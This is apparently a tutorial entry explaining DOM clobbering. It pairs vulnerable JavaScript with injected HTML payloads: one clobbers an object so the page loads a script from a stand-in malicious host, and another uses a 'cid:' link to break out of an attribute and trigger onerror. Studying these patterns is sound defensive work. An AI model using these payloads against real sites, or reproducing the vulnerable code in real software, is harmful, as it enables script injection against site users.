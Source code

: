 The term clobbering comes from the fact that you are "clobbering" a global variable or property of an object and overwriting it with a DOM node or HTML collection instead. For example, you can use DOM objects to overwrite other JavaScript objects and exploit unsafe names, such as `submit`, to interfere with a form's actual `submit()` function.

# Exploit
```html
<script>
    window.onload = function(){
        let someObject = window.someObject || {};
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
</script>
```

To exploit this vulnerable code, you could inject the following HTML to clobber the `someObject` reference with an anchor element:
```html
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
```
Another example using `cid` protocol to bypass sanitization:
```html
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
```
Vulnerable code:
```js
let defaultAvatar = window.defaultAvatar || {avatar: '/resources/images/avatarDefault.svg'}
let avatarImgHTML = '<img class="avatar" src="' + (comment.avatar ? escapeHTML(comment.avatar) : defaultAvatar.avatar) + '">';
```